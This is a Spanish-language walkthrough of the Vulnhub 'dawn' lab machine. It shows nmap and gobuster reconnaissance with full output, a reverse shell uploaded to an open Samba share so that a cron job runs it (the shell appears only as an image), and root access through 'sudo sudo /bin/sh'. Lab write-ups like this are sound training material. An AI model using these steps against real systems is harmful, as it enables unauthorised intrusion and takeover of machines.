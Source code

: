 +++
title = "dawn - Vulnhub"
+++


[link => dawn](https://www.vulnhub.com/entry/sunset-dawn,341/)

---



## Escaneo de red con nmap para descubrir máquina objetivo

```bash
nmap -sn 10.3.3.0/24
```

![nmaphd](/images/writeups/vulnhub/dawn/nmaphd.png)

### La IP de la máquina objetivo es **10.3.3.20**

## Escaneo de la máquina objetivo en busca de puertos abiertos

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.3.3.20 -oN target_scan.nmap
```

```bash
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-12 15:42 EDT
Initiating ARP Ping Scan at 15:42
Scanning 10.3.3.20 [1 port]
Completed ARP Ping Scan at 15:42, 0.06s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 15:42
Scanning 10.3.3.20 [65535 ports]
Discovered open port 139/tcp on 10.3.3.20
Discovered open port 80/tcp on 10.3.3.20
Discovered open port 445/tcp on 10.3.3.20
Discovered open port 3306/tcp on 10.3.3.20
Completed SYN Stealth Scan at 15:42, 1.41s elapsed (65535 total ports)
Nmap scan report for 10.3.3.20
Host is up, received arp-response (0.00013s latency).
Scanned at 2024-03-12 15:42:28 EDT for 2s
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE      REASON
80/tcp   open  http         syn-ack ttl 64
139/tcp  open  netbios-ssn  syn-ack ttl 64
445/tcp  open  microsoft-ds syn-ack ttl 64
3306/tcp open  mysql        syn-ack ttl 64
MAC Address: 08:00:27:43:01:ED (Oracle VirtualBox virtual NIC)

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 1.78 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)
```

### **Puertos Abiertos: 80,139,445,3306**

## Ejecución de scripts con nmap

```bash
sudo nmap -sCV -p80,139,445,3306 10.3.3.20 -oN scripts_exec.nmap
```



```bash
Host is up (0.00044s latency).

PORT     STATE SERVICE     VERSION
80/tcp   open  http        Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
3306/tcp open  mysql       MySQL 5.5.5-10.3.15-MariaDB-1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.15-MariaDB-1
|   Thread ID: 12
|   Capabilities flags: 63486
|   Some Capabilities: ODBCClient, SupportsLoadDataLocal, InteractiveClient, LongColumnFlag, SupportsCompression, ConnectWithDatabase, SupportsTransactions, Speaks41ProtocolOld, IgnoreSigpipes, Support41Auth, FoundRows, Speaks41ProtocolNew, IgnoreSpaceBeforeParenthesis, DontAllowDatabaseTableColumn, SupportsAuthPlugins, SupportsMultipleStatments, SupportsMultipleResults
|   Status: Autocommit
|   Salt: cJ*2\X'TR}Ct?|tS!H'*
|_  Auth Plugin Name: mysql_native_password
MAC Address: 08:00:27:43:01:ED (Oracle VirtualBox virtual NIC)
Service Info: Host: DAWN

Host script results:
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.9.5-Debian)
|   Computer name: dawn
|   NetBIOS computer name: DAWN\x00
|   Domain name: dawn
|   FQDN: dawn.dawn
|_  System time: 2024-03-12T15:45:17-04:00
| smb2-time: 
|   date: 2024-03-12T19:45:17
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: DAWN, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
|_clock-skew: mean: 1h19m59s, deviation: 2h18m33s, median: 0s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.56 seconds
```

## Enumeración de directorios con gobuster

```bash
gobuster dir -u http://10.3.3.20/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
```

```bash
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.3.3.20/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 293]
/.hta                 (Status: 403) [Size: 288]
/.htaccess            (Status: 403) [Size: 293]
/index.html           (Status: 200) [Size: 791]
/logs                 (Status: 301) [Size: 305] [--> http://10.3.3.20/logs/]
/server-status        (Status: 403) [Size: 297]
Progress: 4727 / 4727 (100.00%)
===============================================================
Finished
===============================================================
```

## Archivo management.log encontrado en http://10.3.3.20/logs/

![management.log](/images/writeups/vulnhub/dawn/managementlog.png)

## Registro de cronjob en el contenido del archivo de log 

![cronjob](/images/writeups/vulnhub/dawn/cronjob.png)


## Conexión al servicio samba y subida de archivo web-control que se ejecuta cada cierto tiempo y contiene una reverse shell

```bash
smbclient --no-pass //10.3.3.20/ITDEPT
```

![revshell](/images/writeups/vulnhub/dawn/revshell.png)

## Privesc

![sudoperms](/images/writeups/vulnhub/dawn/sudoperms.png)

```bash
sudo sudo /bin/sh
```

![flagroot](/images/writeups/vulnhub/dawn/flagroot.png)
